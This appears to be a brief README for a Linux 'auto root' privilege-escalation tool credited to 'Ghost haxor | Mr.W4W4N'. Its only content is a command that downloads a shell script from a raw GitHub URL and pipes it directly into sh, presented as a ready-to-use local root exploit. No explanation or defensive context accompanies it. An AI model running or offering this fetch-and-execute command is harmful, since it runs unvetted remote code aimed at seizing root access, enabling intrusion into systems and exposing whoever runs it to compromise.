 # localroot Auto Root Linux Privilege Escalation

```bash
# From public github

curl -L https://raw.githubusercontent.com/mrwawanj/website/refs/heads/main/modrot.sh | sh
```
Powerfull Auto root Localroot By Ghost haxor | Mr.W4W4N
